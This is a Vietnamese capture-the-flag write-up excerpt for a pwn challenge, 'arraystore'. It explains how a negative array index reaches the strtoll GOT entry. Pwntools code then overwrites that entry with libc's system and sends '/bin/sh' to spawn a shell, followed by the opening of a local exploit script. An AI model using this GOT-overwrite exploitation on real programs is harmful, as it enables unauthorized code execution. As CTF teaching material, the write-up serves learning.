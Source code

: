 ```lý do tại sao mình ko index bằng số dương mà lại dùng số âm, đơn giản thôi nếu bạn dùng số dương thì sẽ leak cái giá trị trong mảng của v6, Nhưng mà cái này nó sẽ ko cố định mà thay đổi trong mỗi lần chạy nên sử dụng nó thì rất hên xui may rủi, đó là lý do mình nên cho index bằng số âm```
# vì vậy ta sẽ tính offset, sau đó đổi offset thành byte, mà mỗi một index thì là 1 stack, 1 stack thì 8byte, nên ta sẽ chia -8 để tính ra index trỏ đến got@stroll

```

**tới đây thì mình chỉ cần ow got@strtoll thành system, và thay đổi rdi thành /bin/sh nữa là xong**

```python

#####################################
### Stage 4: Overwrite got@stroll ###
#####################################

p.sendlineafter(b'?: ', b'W')
p.sendlineafter(b'Index: ', str(idx))
payload = str(libc.sym['system'])
p.sendlineafter(b'Value: ', payload)

######################################
### Stage 5: change rdi to /bin/sh ###
######################################

p.sendlineafter(b'?: ', b'R')
p.sendlineafter(b'Index: ', b'/bin/sh\0')


```

### NOTE

**ở đây có ai thắc mắc tại sao mình không dùng got của put, fgets hay hàm nào nó mà lại dùng strtoll ko??**

h thì ta thử debug để hiểu thêm nha

bây giờ ta chọn option Read và nhập cho Value thử 8byte a 

sau đó ta chạy đến hàm strtoll để thấy sự thay đổi:

![image](https://github.com/gookoosss/CTF/assets/128712571/305a4d98-a634-4ed6-98bb-7a74955d8711)


chà, **lúc này hàm strtoll đã gán giá trị ta nhập vào là aaaaaaaa vô rdi rồi**, nếu thay vào đó **ta sẽ nhập /bin/sh\0 vào thì có phải là ta đỡ phải dùng pop_rdi đúng ko??**

- đến đây thì ta lấy được shell rồi nè


![image](https://github.com/gookoosss/CTF/assets/128712571/67c71836-ef45-4b35-a902-dc1626571d88)


### script:

```python

from pwn import *

exe = ELF('./arraystore_patched', checksec = False)
context.binary = exe
p = process('./arraystore_patched')
libc = ELF('libc6_2.35-0ubuntu3.1_amd64.so')

gdb.attach(p, gdbscript = '''
b*main+337
c      
''')

input()
```